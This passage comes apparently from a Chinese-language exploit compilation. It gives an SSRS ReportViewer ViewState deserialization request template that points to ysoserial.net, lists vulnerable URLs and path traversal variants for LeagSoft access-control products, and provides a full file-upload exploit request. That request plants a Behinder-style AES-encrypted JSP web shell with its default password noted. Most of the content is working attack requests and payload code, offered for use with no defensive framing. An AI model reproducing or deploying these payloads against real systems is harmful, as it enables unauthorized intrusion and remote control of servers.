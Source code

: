 
```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X
NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=\[PayloadHere\]&\_\_VIEWSTATE=
可以在PowerShell中使用以下命令来使用ysoserial.net工具生成有效负载https://github.com/pwntester/ysoserial.net

```

##### 23、联软准入漏洞

已知存在漏洞的 url 如下：

  
http://IP:80/uai/newDevRegist/updateDevUploadinfo.htm  
（只有 201904-1SP 起才存在该漏洞）

  
http://IP:80/uai/download/uploadfileToPath.htm  
（受影响的版本都存在该漏洞）

  
http://IP:80/uai/newDevRegist/newDevRegist/newDevRegist/..;/..;/updateDevUploadinfo.htm（只有 201904-1SP 起才存在该漏洞）

  
http://IP:80/uai/download/download/download/..;/..;/uploadfileToPath.htm （受影响的版本都存在该漏洞） 

24、联软准入系统任意文件上传漏洞 EXP

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWz5Xh1nUZrbMMdYVkkT6GicALS0svBYYgHmYcI6eruq90OAXmBZXkZXDg/640?wx_fmt=png)

任意文件上传漏洞 EXP（某软准入）
------------------

```
POST /uai/download/uploadfileToPath.htm HTTP/1.1
HOST: xxxxx
... ...
-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; 
Content-Type: image/png
<%@page import="java.util.\*,javax.crypto.\*,javax.crypto.spec.\*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte \[\]b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/\*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond\*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; 
../webapps/notifymsg/devreport/
-----------------------------570xxxxxxxxx6025274xxxxxxxx1--

```
